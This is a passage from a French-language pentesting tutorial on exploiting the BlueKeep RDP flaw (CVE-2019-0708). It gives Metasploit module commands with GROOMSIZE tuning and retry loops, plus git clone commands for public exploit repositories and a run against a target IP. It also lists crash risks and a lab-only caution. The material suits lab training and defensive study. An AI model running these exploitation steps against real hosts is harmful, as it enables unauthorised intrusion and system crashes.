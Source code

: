 
## ⚠️ 5. Risques et précautions BlueKeep

### Risques de l'exploitation BlueKeep
- 💥 **Crash du système** très probable
- 🔄 **Redémarrage forcé** de la cible
- 📊 **Instabilité RDP** après exploitation
- 🚫 **Perte de sessions** RDP actives
- ⚠️ **Blue Screen of Death** fréquent

### Précautions avant exploitation
```bash
# 1. Vérifier que c'est un environnement de lab
echo "⚠️ ATTENTION: BlueKeep peut crasher le système!"

# 2. Sauvegarder état si possible
# 3. Prévoir redémarrage de la cible
# 4. Tester d'abord le scanner seulement

# 5. Exploitation prudente
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
check                    # Vérifier d'abord
set GROOMSIZE 50         # Réduire pour plus de stabilité
exploit
```

### Stratégies de stabilisation
```bash
# Réduire agressivité
set GROOMSIZE 50         # Au lieu de 200
set TARGET 1             # Cible spécifique si connue

# Multiple tentatives
exploit
# Si échec, retry
exploit
exploit
```

---

## 🔧 6. Exploitation BlueKeep manuelle

### Outils tiers BlueKeep
```bash
# CVE-2019-0708 exploits externes
git clone https://github.com/zerosum0x0/CVE-2019-0708.git
cd CVE-2019-0708
python cve-2019-0708.py target_ip

# Autre implémentation
git clone https://github.com/k8gege/CVE-2019-0708.git
```
